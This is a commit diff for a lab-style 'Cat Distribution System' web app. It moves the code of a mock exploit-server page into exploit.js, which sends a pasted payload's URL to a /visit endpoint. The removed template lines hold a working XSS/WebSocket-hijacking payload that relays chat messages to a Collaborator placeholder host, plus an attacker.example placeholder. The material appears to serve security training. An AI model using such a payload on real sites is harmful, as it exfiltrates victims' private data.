

Before and after one commit to soeun-727/Cat-Distribution-System, a Python web app: template templates/exploit.html in a window 1280 px wide. Shown: the top 727 px of the page, without its empty margins (107-1172 px from the left). Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
1807 backup

```diff
--- /dev/null
+++ b/static/js/exploit.js
@@ -0,0 +1,47 @@
+const exploitBodyTextarea = document.getElementById('exploitBody');
+const form = document.getElementById('exploitForm');
+const status = document.getElementById('status');
+const responsePre = document.getElementById('response');
+
+form.addEventListener('submit', async (e) => {
+    e.preventDefault();
+
+    const exploitPayload = exploitBodyTextarea.value;
+    const urlMatch = exploitPayload.match(/document.location\s*=\s*"(.*?)"/);
+    const exploitUrl = urlMatch ? urlMatch[1] : null;
+
+    if (!exploitUrl) {
+        status.textContent = "Error: Could not extract the exploit URL from the payload. Please ensure your script uses 'document.location'.";
+        status.style.color = "red";
+        return;
+    }
+
+    status.textContent = "Delivering exploit...";
+    status.style.color = "blue";
+    responsePre.textContent = "";
+
+    try {
+        const res = await fetch('/visit', {
+            method: 'POST',
+            headers: {
+                'Content-Type': 'application/json'
+            },
+            body: JSON.stringify({ url: exploitUrl })
+        });
+
+        const data = await res.json();
+        if (res.ok) {
+            status.textContent = "Exploit delivered successfully!";
+            status.style.color = "green";
+            responsePre.textContent = JSON.stringify(data, null, 2);
+        } else {
+            status.textContent = "Error delivering exploit.";
+            status.style.color = "red";
+            responsePre.textContent = data.error || "An unknown error occurred.";
+        }
+    } catch (err) {
+        status.textContent = "Network error: Could not connect to the exploit server.";
+        status.style.color = "red";
+        responsePre.textContent = err.message;
+    }
+});
--- a/templates/exploit.html
+++ b/templates/exploit.html
@@ -2,7 +2,7 @@
 <html>
 <head>
     <meta charset="utf-8">
-    <title>Exploit Server: Cat Distribution System</title>
+    <title>Exploit Server</title>
     <link rel="stylesheet" href="{{ url_for('static', filename='css/style.css') }}">
     <style>
         body { font-family: sans-serif; margin: 2em; }
@@ -19,7 +19,7 @@
             margin: 5px 0;
         }
         .information { margin-bottom: 2em; }
-        textarea, input[type="text"] {
+        textarea {
             width: 100%;
             padding: 8px;
             margin-bottom: 1em;
@@ -31,26 +31,14 @@
 </head>
 <body>
     <div class="container">
-        <nav>
-            <a href="{{ url_for('home') }}">Home</a> |
-            <a href="{{ url_for('login') }}">Login</a> |
-            <a href="{{ url_for('exploit') }}">Exploit</a>
-        </nav>
         <h1><a href="{{ url_for('home') }}">Cat Distribution System</a></h1>
         <h2>Exploit Server</h2>
         <div class="information">
-            <p>You can use the form below to save an exploit, and send it to the victim. We reccommend that you use Chrome.</p>
+            <p>Use the form below to save an exploit and send to the victim. We recommend using Google Chrome.</p>
         </div>
         <form id="exploitForm">
-            <label>Exploit URL:</label>
-            <input required type="text" id="url" name="url" placeholder="https://attacker.example/exploit.html" />
-
-            <label>Body:</label>
-            <textarea required rows="12" cols="300" style="white-space: pre-wrap; overflow-x: scroll" name="responseBody">
-<script>
-    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2FYOUR-LAB-ID.web-security-academy.net%2Fchat%27%29%3Bws.onopen%20%3D%20function%28%29%20%7Bws.send%28%22READY%22%29%3B%7D%3Bws.onmessage%20%3D%20function%28event%29%20%7Bfetch%28%27https%3A%2F%2FYOUR-COLLABORATOR-PAYLOAD%2Foastify.com%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20event.data%7D%29%3B%7D%3B%3C%2Fscript%3E&password=anything";
-</script>
-            </textarea>
+            <label>Exploit Payload:</label>
+            <textarea required rows="12" cols="300" style="white-space: pre-wrap; overflow-x: scroll" name="exploitBody" id="exploitBody"></textarea>
 
             <button class="button" name="formAction" type="submit">
                 Deliver exploit to victim
@@ -59,43 +47,6 @@
         <h3 id="status"></h3>
         <pre id="response"></pre>
     </div>
-    <script>
-        const form = document.getElementById('exploitForm');
-        const status = document.getElementById('status');
-        const responsePre = document.getElementById('response');
-
-        form.addEventListener('submit', async (e) => {
-            e.preventDefault();
-            const urlInput = document.getElementById('url').value;
-            status.textContent = "Delivering exploit...";
-            status.style.color = "blue";
-            responsePre.textContent = "";
-
-            try {
-                const res = await fetch('/visit', {
-                    method: 'POST',
-                    headers: {
-                        'Content-Type': 'application/json'
-                    },
-                    body: JSON.stringify({ url: urlInput })
-                });
-
-                const data = await res.json();
-                if (res.ok) {
-                    status.textContent = "Exploit delivered successfully!";
-                    status.style.color = "green";
-                    responsePre.textContent = JSON.stringify(data, null, 2);
-                } else {
-                    status.textContent = "Error delivering exploit.";
-                    status.style.color = "red";
-                    responsePre.textContent = data.error || "An unknown error occurred.";
-                }
-            } catch (err) {
-                status.textContent = "Network error: Could not connect to the exploit server.";
-                status.style.color = "red";
-                responsePre.textContent = err.message;
-            }
-        });
-    </script>
+    <script src="{{ url_for('static', filename='js/exploit.js') }}"></script>
 </body>
 </html>
```
